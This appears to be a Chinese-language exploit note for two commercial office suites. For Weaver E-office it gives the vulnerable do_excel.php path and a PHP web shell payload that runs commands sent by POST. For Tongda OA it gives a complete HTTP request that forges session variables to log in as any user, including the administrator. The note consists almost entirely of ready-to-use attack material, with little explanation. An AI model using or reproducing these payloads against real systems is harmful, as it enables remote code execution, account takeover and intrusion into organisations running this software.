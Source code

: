 

## 泛微E-office do_excel.php任意文件写入漏洞

```
/WWW/general/charge/charge_list/do_excel.php
```

payload

```
html=<?php system($_POST[pass]);?>
```



## 通达OA登录认证绕过

未经授权的攻击者可以通过精心构造的HTTP请求登录任意用户，包括Admin用户

```
POST /module/retrieve_pwd/header.inc.php HTTP/1.1
Host: hostname
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.89 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 1830


_SESSION%5BLOGIN_THEME%5D=15&_SESSION%5BLOGIN_USER_ID%5D=1&_SESSION%5BLOGIN_UID%5D=1&_SESSION%5BLOGIN_FUNC_STR%5D=1%2C3%2C42%2C643%2C644%2C634%2C4%2C147%2C148%2C7%2C8%2C9%2C10%2C16%2C11%2C130%2C5%2C131%2C132%2C256%2C229%2C182%2C183%2C194%2C637%2C134%2C37%2C135%2C136%2C226%2C253%2C254%2C255%2C536%2C24%2C196%2C105%2C119%2C80%2C96%2C97%2C98%2C114%2C126%2C179%2C607%2C539%2C251%2C127%2C238%2C128%2C85%2C86%2C87%2C88%2C89%2C137%2C138%2C222%2C90%2C91%2C92%2C152%2C93%2C94%2C95%2C118%2C237%2C108%2C109%2C110%2C112%2C51%2C53%2C54%2C153%2C217%2C150%2C239%2C240%2C218%2C219%2C43%2C17%2C18%2C19%2C15%2C36%2C70%2C76%2C77%2C115%2C116%2C185%2C235%2C535%2C59%2C133%2C64%2C257%2C2%2C74%2C12%2C68%2C66%2C67%2C13%2C14%2C40%2C41%2C44%2C75%2C27%2C60%2C61%2C481%2C482%2C483%2C484%2C485%2C486%2C487%2C488%2C489%2C490%2C491%2C492%2C120%2C494%2C495%2C496%2C497%2C498%2C499%2C500%2C501%2C502%2C503%2C505%2C504%2C26%2C506%2C507%2C508%2C515%2C537%2C122%2C123%2C124%2C628%2C125%2C630%2C631%2C632%2C633%2C55%2C514%2C509%2C29%2C28%2C129%2C510%2C511%2C224%2C39%2C512%2C513%2C252%2C230%2C231%2C232%2C629%2C233%2C234%2C461%2C462%2C463%2C464%2C465%2C466%2C467%2C468%2C469%2C470%2C471%2C472%2C473%2C474%2C475%2C200%2C202%2C201%2C203%2C204%2C205%2C206%2C207%2C208%2C209%2C65%2C187%2C186%2C188%2C189%2C190%2C191%2C606%2C192%2C193%2C221%2C550%2C551%2C73%2C62%2C63%2C34%2C532%2C548%2C640%2C641%2C642%2C549%2C601%2C600%2C602%2C603%2C604%2C46%2C21%2C22%2C227%2C56%2C30%2C31%2C33%2C32%2C605%2C57%2C609%2C103%2C146%2C107%2C197%2C228%2C58%2C538%2C151%2C6%2C534%2C69%2C71%2C72%2C223%2C639%2C225%2C236%2C78%2C178%2C104%2C121%2C149%2C84%2C99%2C100%2C533%2C101%2C113%2C198%2C540%2C626%2C638%2C38%2C&_SESSION%5BLOGIN_USER_PRIV%5D=1&_SESSION%5BLOGIN_USER_PRIV_OTHER%5D=1&_SESSION%5BLOGIN_USER_PRIV_TYPE%5D=1&_SESSION%5BLOGIN_NOT_VIEW_USER%5D=0&_SESSION%5BRETRIEVE_PWD_USER%5D=2s
```





## 参考链接

https://www.iculture.cc/cybersecurity/pig=21144

https://www.iculture.cc/cybersecurity/pig=21096

https://mp.weixin.qq.com/s/IeRLgt5kCKbythKXebrjiA

